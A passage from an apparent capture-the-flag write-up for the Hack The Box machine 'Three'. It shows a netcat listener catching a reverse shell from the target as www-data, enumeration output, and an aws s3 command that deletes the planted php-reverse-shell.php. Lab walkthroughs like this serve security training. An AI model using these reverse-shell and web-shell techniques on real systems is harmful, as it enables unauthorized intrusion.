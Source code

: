 ```
$ nc -lvnp 42069
listening on [any] 42069 ...
connect to [10.10.14.189] from (UNKNOWN) [10.129.227.248] 59712
Linux three 4.15.0-189-generic #200-Ubuntu SMP Wed Jun 22 19:53:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 14:16:49 up  2:15,  0 users,  load average: 0.00, 0.02, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:94:26:7b brd ff:ff:ff:ff:ff:ff
    inet 10.129.227.248/16 brd 10.129.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:fe94:267b/64 scope global dynamic mngtmpaddr 
       valid_lft 86393sec preferred_lft 14393sec
    inet6 fe80::250:56ff:fe94:267b/64 scope link 
       valid_lft forever preferred_lft forever
3: br-2de548fc06bf: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:2d:f2:e1:e8 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.1/16 brd 172.18.255.255 scope global br-2de548fc06bf
       valid_lft forever preferred_lft forever
    inet6 fe80::42:2dff:fef2:e1e8/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:e0:85:7f:c4 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
6: vethabdf1a4@if5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-2de548fc06bf state UP group default 
    link/ether 22:e4:6b:76:93:e5 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::20e4:6bff:fe76:93e5/64 scope link 
       valid_lft forever preferred_lft forever
```

search around a bit and find the flag. don't forget to cleanup that reverse shell too

![three_flag](/assets/img/three_flag.png)

```
$ aws s3 rm --profile htb_three --endpoint-url http://s3.thetoppers.htb s3://thetoppers.htb/php-reverse-shell.php                   
delete: s3://thetoppers.htb/php-reverse-shell.php
```